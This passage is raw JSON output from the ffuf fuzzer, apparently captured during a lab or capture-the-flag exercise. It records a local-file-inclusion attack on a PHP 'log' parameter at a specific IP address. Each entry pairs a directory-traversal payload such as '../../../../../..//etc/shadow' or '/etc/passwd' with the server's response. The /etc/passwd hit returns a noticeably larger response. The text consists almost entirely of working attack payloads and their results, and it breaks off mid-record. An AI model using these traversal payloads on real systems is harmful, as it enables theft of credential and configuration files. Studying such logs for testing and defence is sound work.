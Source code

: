 log.md","time":"2025-06-04T10:22:26+02:00","results":[{"input":{"FFUFHASH":"f6cf52","FUZZ":"/etc/shadow"},"position":2,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":46594423,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/shadow","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5a","FUZZ":"/etc/bootptab"},"position":10,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":46583453,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/bootptab","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf58","FUZZ":"/etc/at.deny"},"position":8,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":51872469,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/at.deny","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf53","FUZZ":"/etc/aliases"},"position":3,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":53056416,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/aliases","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf514","FUZZ":"/etc/ftpchroot"},"position":20,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":53275458,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/ftpchroot","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf528","FUZZ":"/etc/lilo.conf"},"position":40,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":54285952,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/lilo.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf515","FUZZ":"/etc/ftphosts"},"position":21,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":54305053,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/ftphosts","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf511","FUZZ":"/etc/exports"},"position":17,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":54176832,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/exports","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf54","FUZZ":"/etc/anacrontab"},"position":4,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":54944896,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/anacrontab","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf59","FUZZ":"/etc/bashrc"},"position":9,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":55472819,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/bashrc","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf513","FUZZ":"/etc/ftpaccess"},"position":19,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":55605899,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/ftpaccess","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf526","FUZZ":"/etc/issue"},"position":38,"status":200,"length":2100,"words":159,"lines":105,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":55437119,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/issue","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf5b","FUZZ":"/etc/chrootUsers"},"position":11,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":55809441,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/chrootUsers","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf521","FUZZ":"/etc/httpd/logs/error.log"},"position":33,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":55767950,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/httpd/logs/error.log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf51","FUZZ":"/etc/passwd"},"position":1,"status":200,"length":3269,"words":152,"lines":130,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":56177232,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/passwd","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf523","FUZZ":"/etc/httpd/srm.conf"},"position":35,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":72256686,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//etc/httpd/srm.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf51d","FUZZ":"/etc/httpd/httpd.conf"},"position":29,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html;